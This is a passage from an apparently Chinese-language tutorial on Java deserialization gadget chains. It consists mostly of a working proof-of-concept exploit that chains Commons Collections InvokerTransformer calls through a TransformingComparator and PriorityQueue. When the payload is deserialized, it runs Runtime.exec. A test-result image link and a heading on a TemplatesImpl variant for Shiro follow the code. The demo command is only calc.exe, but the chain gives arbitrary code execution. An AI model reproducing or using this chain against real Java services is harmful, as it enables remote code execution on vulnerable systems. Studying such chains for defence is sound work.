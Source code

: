 ```java
        field.set(obj, value);
    }
    public static void main(String[] args) throws Exception {
        Transformer[] fakeTransformers = new Transformer[] {new
                ConstantTransformer(1)};
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class,
                        Class[].class }, new Object[] { "getRuntime",
                        new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class,
                        Object[].class }, new Object[] { null, new
                        Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class
                },
                        new String[] { "calc.exe" }),
        };
        Transformer transformerChain = new
                ChainedTransformer(fakeTransformers);
        Comparator comparator = new
                TransformingComparator(transformerChain);
        PriorityQueue queue = new PriorityQueue(2, comparator);
        queue.add(1);
        queue.add(2);
        setFieldValue(transformerChain, "iTransformers", transformers);
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();
        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new
                ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}

```





测试结果：

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20221206161847500.png)



## TemplatesImpl无数组TransformingComparator

用TemplatesImpl字节码的方式也能进行利用，并且还能用于shiro的无数组链：
